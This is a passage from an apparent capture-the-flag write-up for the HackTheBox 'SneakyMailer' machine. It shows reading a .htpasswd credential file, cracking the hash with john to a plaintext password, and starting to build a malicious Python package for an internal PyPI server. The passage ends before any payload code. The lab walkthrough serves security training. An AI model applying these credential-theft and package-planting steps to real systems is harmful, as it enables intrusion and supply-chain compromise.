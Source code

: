 ![pypi](/assets/img/Posts/SneakyM/pypi.png)

To upload the python package we'll need to be authenticated, inside `pypi.sneakycorp.htb` directory we find a `.htpasswd` file containing password hash:

```shell
www-data@sneakymailer:~/pypi.sneakycorp.htb$ ls -la
total 20
drwxr-xr-x 4 root root     4096 May 15  2020 .
drwxr-xr-x 6 root root     4096 May 14  2020 ..
-rw-r--r-- 1 root root       43 May 15  2020 .htpasswd
drwxrwx--- 2 root pypi-pkg 4096 Jun 30 02:24 packages
drwxr-xr-x 6 root pypi     4096 May 14  2020 venv
www-data@sneakymailer:~/pypi.sneakycorp.htb$ cat .htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

We can crack it using john which results the creds as `pypi:soufianeelhaoui`

```shell
cfx:  ~/Documents/htb/sneakymailer
→ john --show pypi.hash
pypi:soufianeelhaoui

1 password hash cracked, 0 left
```

### Malicious Python Package

With reference to this [**article**](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/) we can create and upload our malicious python package to PyPi server

- Step1 : Creating all the required files

```shell
www-data@sneakymailer:/tmp$ mkdir coldfx

www-data@sneakymailer:/tmp$ cd coldfx

www-data@sneakymailer:/tmp/coldfx$ touch setup.py setup.cfg README.md .pypirc

www-data@sneakymailer:/tmp/coldfx$ mkdir cfx-key

www-data@sneakymailer:/tmp/coldfx$ cd cfx-key

www-data@sneakymailer:/tmp/coldfx/cfx$ touch __init__.py

www-data@sneakymailer:/tmp/coldfx$ find .
```